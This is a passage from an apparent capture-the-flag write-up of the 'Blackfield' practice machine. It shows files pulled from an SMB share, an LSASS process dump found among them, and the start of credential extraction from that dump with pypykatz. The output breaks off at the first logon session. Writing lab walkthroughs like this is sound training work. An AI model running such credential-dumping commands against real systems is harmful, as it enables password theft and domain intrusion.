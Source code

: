 ~~~
getting file \commands_output\domain_groups.txt of size 962 as domain_groups.txt (5.3 KiloBytes/sec) (average 3.8 KiloBytes/sec)
getting file \commands_output\domain_users.txt of size 16454 as domain_users.txt (85.5 KiloBytes/sec) (average 30.5 KiloBytes/sec)
getting file \commands_output\firewall_rules.txt of size 518202 as firewall_rules.txt (1375.2 KiloBytes/sec) (average 555.8 KiloBytes/sec)
getting file \commands_output\ipconfig.txt of size 1782 as ipconfig.txt (9.6 KiloBytes/sec) (average 467.4 KiloBytes/sec)
.....
~~~
{: .language-bash}

Looking through the files downloaded, i quickly notice *lsass.zip* inside the directory *memory_analysis*, peeking inside the zip file i can tell there is a process dump of the lsass process, i should be able to extract passwords from that dump using mimikatz.

LSASS stands for **Local Security Authority Subsystem Service**, and is a process running in Windows operating systems that is responsible for a lot of things regarding security and authorization, it verifies logins, handles password changes and provides access tokens etc. 

~~~
┌──(kali@kali)-[~/boxes/blackfield/memory_analysis]
└─$ ls -la        
total 228116
drwxr-xr-x 2 kali kali     4096 Nov  8 16:41 .
drwxr-xr-x 7 kali kali     4096 Oct 31 18:02 ..
-rw-r--r-- 1 kali kali 37876530 Nov  8 16:40 conhost.zip
-rw-r--r-- 1 kali kali 24962333 Nov  8 16:40 ctfmon.zip
-rw-r--r-- 1 kali kali 23993305 Nov  8 16:40 dfsrs.zip
-rw-r--r-- 1 kali kali 18366396 Nov  8 16:40 dllhost.zip
-rw-r--r-- 1 kali kali  8810157 Nov  8 16:40 ismserv.zip
-rw-r--r-- 1 kali kali 41936098 Nov  8 16:41 lsass.zip
-rw-r--r-- 1 kali kali 64288607 Nov  8 16:41 mmc.zip
-rw-r--r-- 1 kali kali 13332174 Nov  8 16:41 RuntimeBroker.zip
-rw-r--r-- 1 kali kali        0 Nov  8 16:41 ServerManager.zip
                                                                                                                                                                                                                                           
┌──(kali@kali)-[~/boxes/blackfield/memory_analysis]
└─$ unzip -l lsass.zip 
Archive:  lsass.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
143044222  2020-02-23 11:02   lsass.DMP
---------                     -------
143044222                     1 file

~~~
{: .language-bash}

Not going to try to get mimikatz working on Kali, so i went with the Python implementation called pypykatz.

~~~
┌──(kali@kali)-[~/boxes/blackfield]            
└─$ pypykatz lsa minidump lsass.DMP                               
                                                                 INFO:root:Parsing file lsass.DMP                                                                                     
FILE: ======== lsass.DMP =======                                                                                     
== LogonSession ==                                                                                                   
authentication_id 406458 (633ba)                                                                                                                                                                                                           
session_id 2                                                                                                                                                                                                                               
~~~